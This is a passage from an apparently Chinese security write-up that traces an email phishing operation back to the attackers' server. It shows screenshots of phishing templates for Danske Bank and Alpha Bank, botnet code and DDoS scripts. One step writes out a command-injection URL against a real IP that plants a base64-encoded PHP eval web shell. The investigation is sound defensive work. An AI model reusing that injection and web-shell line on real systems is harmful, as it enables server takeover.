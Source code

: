 ![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386395_5c4a805b13938.png!small)

### 5. 获取权限

使用用MSF执行 

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386448_5c4a8090a8169.png!small)得到一个cmd功能的WebShell  

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386471_5c4a80a75a2b4.png!small)

写入中国菜刀客户端

1. `http://187.85.134.4/lndex.php?img=echo PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8+Cg== |base64 -d >/var/www/index2.php`

### ![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386489_5c4a80b9437fc.png!small)

### 5.3 文件分析

在Web目录下面发现用于发送钓鱼邮件的perl脚本、邮件钓鱼样本和大量的邮箱地址。以及挖矿后门、DDOS脚本等。

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386542_5c4a80ee0fc18.png!small)

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386562_5c4a81029a1e9.png!small)

5.3.1 钓鱼模板

图示是针对丹麦丹斯克银行Danske Bank和希腊阿尔法银行Alpha Bank的邮件钓鱼样本。

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386577_5c4a8111552d9.png!small)

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386587_5c4a811b13257.png!small)

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386594_5c4a8122d9bb3.png!small)

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386609_5c4a8131b33cd.png!small)

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386658_5c4a8162a5a7e.png!small)

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386668_5c4a816ce9519.png!small)

**5.3.2 僵尸网络程序**

![image.png](https://image.3001.net/images/20190125/1548386697_5c4a818928580.png!small)![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386703_5c4a818fda521.png!small)

**5.3.3 DDOS脚本**

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548386711_5c4a81974c2d3.png!small)

**5.3.4 邮箱地址**

